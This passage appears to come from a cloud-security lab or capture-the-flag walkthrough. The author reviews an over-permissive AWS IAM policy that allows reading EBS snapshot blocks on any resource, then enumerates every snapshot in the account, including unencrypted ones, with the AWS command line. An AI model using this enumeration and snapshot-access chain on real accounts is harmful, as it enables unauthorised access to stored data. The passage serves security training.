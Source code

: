 ```
                    "Effect": "Allow",
                    "Action": [
                        "ebs:ListSnapshotBlocks",
                        "ebs:GetSnapshotBlock"
                    ],
                    "Resource": "*"
                }
            ]
        },
        "VersionId": "v9",
        "IsDefaultVersion": true,
        "CreateDate": "2024-01-15T23:47:11+00:00"
    }
}
```

Wow, this permission lets us do a lot!
- “ec2:DescribeSnapshotAttribute” on “arn:aws:ec2:us-east-1::snapshot/snap-0c0679098c7a4e636”
- “ec2:DescribeSnapshots” on *any* resource (wildcard).
- “iam:GetPolicyVersion”, “iam:GetPolicy”, and “iam:ListAttachedUserPolicies” on resources “arn:aws:iam::104506445608:user/intern” and “arn:aws:iam::104506445608:policy/PublicSnapper”
- “ebs:ListSnapshotBlocks” and “ebs:GetSnapshotBlock” on any resource (wildcard).

So let’s use that permission to see all of the snapshots in the entire environment. I’m passing the account ID and the region ‘us-east-1’.

```
$ aws ec2 describe-snapshots --owner-ids 104506445608 --region us-east-1
{
    "Snapshots": [
        {
            "Tags": [
                {
                    "Key": "Name",
                    "Value": "PublicSnapper"
                }
            ],
            "StorageTier": "standard",
            "TransferType": "standard",
            "CompletionTime": "2023-06-12T15:22:57.924000+00:00",
            "FullSnapshotSizeInBytes": 8589934592,
            "SnapshotId": "snap-0c0679098c7a4e636",
            "VolumeId": "vol-0ac1d3295a12e424b",
            "State": "completed",
            "StartTime": "2023-06-12T15:20:20.580000+00:00",
            "Progress": "100%",
            "OwnerId": "104506445608",
            "Description": "Created by CreateImage(i-06d9095368adfe177) for ami-07c95fb3e41cb227c",
            "VolumeSize": 8,
            "Encrypted": false
        },
        {
            "StorageTier": "standard",
            "TransferType": "standard",
            "CompletionTime": "2023-08-24T19:34:22.909000+00:00",
            "FullSnapshotSizeInBytes": 9245294592,
            "SnapshotId": "snap-035930ba8382ddb15",
            "VolumeId": "vol-09149587639d7b804",
            "State": "completed",
            "StartTime": "2023-08-24T19:30:49.742000+00:00",
            "Progress": "100%",
            "OwnerId": "104506445608",
            "Description": "Created by CreateImage(i-0199bf97fb9d996f1) for ami-0e411723434b23d13",
            "VolumeSize": 24,
```
